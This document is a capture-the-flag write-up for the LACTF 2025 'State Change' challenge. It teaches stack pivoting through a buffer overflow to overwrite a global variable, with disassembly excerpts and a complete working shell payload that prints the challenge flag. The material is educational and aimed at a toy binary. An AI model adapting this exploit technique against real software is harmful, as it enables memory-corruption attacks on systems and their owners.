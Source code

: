 # How to Use Stack Pivoting to Override Global Variables?

The challenge **"State Change"** from **LACTF 2025** will be used to explore this question. The challenge is available [here](https://github.com/uclaacm/lactf-archive/tree/main/2025/pwn/state-change).

## 1. Static Analysis

The challenge has a buffer overflow vulnerability that is easy to exploit due to the absence of stack canaries:

```bash
$ checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH  Symbols  FORTIFY  Fortified  Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols  No  0  1  chall
```

Since **PIE is disabled**, global variables have fixed addresses, making them easy to overwrite. However, the principle of **stack pivoting** remains useful even if these mitigations were enabled.

### Code Overview

The program contains global variables, including `state`:

```c
char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];
```

The `win` function requires `state` to be a specific value:

```c
void win() {
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    FILE* flagfile = fopen("flag.txt", "r");
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        puts("Here's the flag: ");
        puts(buf);
    }
}
```

However, `state` is initialized in `main` and is never modified later:

```c
int main() {
    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file...");
    vuln();
    return 0;
}
```

The `vuln` function has a buffer overflow:

```c
void vuln() {
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin); // 16-byte overflow
}
```

Since we can overwrite the **base pointer and return address**, we might think about directly jumping to `win()`, but `state` would remain incorrect.

## 2. What is Stack Pivoting?

Stack pivoting is a technique used when a buffer overflow does not provide enough space to inject a full ROP chain. Instead, we move the stack to a controlled section (like global variables or the heap) where we already have written a ROP chain.

Here, we use stack pivoting to overwrite the **global `state` variable** before calling `win()`. Here is the strategy:
1. Move the stack into the **data section**.
2. Call `vuln()` again.
3. Overwrite `state` with `0xf1eeee2d`.
4. Call `win()`.

## 3. Exploitation

### 3.1 Moving the Stack

At the end of `vuln()`, the `leave` instruction executes:
```
leave  →  mov rsp, rbp  →  pop rbp
```
As an example:
```
Before leave:                        After leave:
| Content    | Description       |   | Content    | Description       |   
| ---------- | ----------------- |   | ---------- | ----------------- |
| AAAAAAAA   | local_buf[0..7]   |   | AAAAAAAA   | local_buf[0..7]   |    
| AAAAAAAA   | local_buf[8..15]  |   | AAAAAAAA   | local_buf[8..15]  |
| AAAAAAAA   | local_buf[16..23] |   | AAAAAAAA   | local_buf[16..23] |
| AAAAAAAA   | local_buf[24..32] |   | AAAAAAAA   | local_buf[24..32] |
| BBBBBBBB   | <- $rbp           |   | BBBBBBBB   |                   |
| CCCCCCCC   |                   |   | CCCCCCCC   | <- $rsp           |
```
After `leave`, `$rbp` points to `BBBBBBBB` and `$rsp` points to the address containing `CCCCCCCC`. When `ret` executes, execution jumps to `CCCCCCCC`.

### 3.2 Calling `vuln()` Again

We cannot call `vuln()` from the beginning because it would reset `$rbp`:
```
00000000004012b5 <vuln>:
  4012b5:	f3 0f 1e fa          	endbr64
  4012b9:	55                   	push   %rbp
  4012ba:	48 89 e5             	mov    %rsp,%rbp
  4012bd:	48 83 ec 20          	sub    $0x20,%rsp
```

Instead, we will start at the very next instruction:
```
  4012c1:	48 8d 05 80 0d 00 00 	lea    0xd80(%rip),%rax
```

Thus, we overwrite the return address with `0x4012c1`.

### 3.3 Overwriting `state`
#### Determine `$rbp`
To overwrite the `state` variable, we should know where the buffer overflow will overwrite data. It depends on the `$rbp` pointer. Indeed, here are the instructions corresponding to the buffer overflow:
```
  4012d7:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4012db:	be 30 00 00 00       	mov    $0x30,%esi
  4012e0:	48 89 c7             	mov    %rax,%rdi
  4012e3:	e8 d8 fd ff ff       	call   4010c0 <fgets@plt>
```
We can see that we will start to write 32 bytes before `$rbp` (-0x20), and write 48 bytes. So where to put `$rbp` in a first place? We should keep in mind that the data just after the `$rbp` pointer will correspond to the instruction address to run when `vuln` will return. The data pointed by `$rbp` will be erased at the beginning of the `win` function when the instruction `push %rbp` will be run. All the slots before are safe. So we can put `$rbp` anywhere after the `state` address. `state` address is `0x404540`, so we can set `BBBBBBBB` to `0x404548`. We then have the beginning of our payload:
```
echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x48\x45\x40\x00\x00\x00\x00\x00\xc1\x12\x40\x00\x00\x00\x00..." | ./chall
```
With this payload, the `vuln` function will be run again (`\xc1\x12\x40\x00\x00\x00\x00` corresponds to the address of `vuln`), and the base pointer will point to the address just after `state` (`\x48\x45\x40\x00\x00\x00\x00\x00`).

#### Overwrite the `state` variable
The buffer overflow will happen a second time. Here is where we can write:
```
| Content    | Description | Address  |
| ---------- | ----------- | -------- |
| ........   |             | 0x404528 |
| ........   |             | 0x404530 |
| ........   |             | 0x404538 |
| 0xdeaddead | state       | 0x404540 |
| ........   | <- $rbp     | 0x404548 |
| ........   |             | 0x404550 |
```
All we have to do is to write the expected state from the 24th character: `0xf1eeee2d`. We can complete our payload:
```
echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x48\x45\x40\x00\x00\x00\x00\x00\xc1\x12\x40\x00\x00\x00\x00AAAAAAAAAAAAAAAAAAAAAAAA\x2d\xee\xee\xf1\x00\x00\x00\x00..." | ./chall
```
### Call the `win` function
Now that the `state` is correct, we just have to overwrite the data after `$rbp` to determine where to jump next. We do not care about the value pointed to by `$rbp`, so we can put everything here. Then, we write the address to the `win` function: `0x4011d6`. The final payload is:
```
$ echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x48\x45\x40\x00\x00\x00\x00\x00\xc1\x12\x40\x00\x00\x00\x00AAAAAAAAAAAAAAAAAAAAAAAA\x2d\xee\xee\xf1\x00\x00\x00\x00BBBBBBBB\xd6\x11\x40\x00\x00\x00\x00\x00" | ./chall
Hey there, I'm deaddead. Who are you?
Hey there, I'm deaddead. Who are you?
Here's the flag: 
lactf{fake_flag}
```
We can see that the `vuln` function is called twice, and then, the flag appears!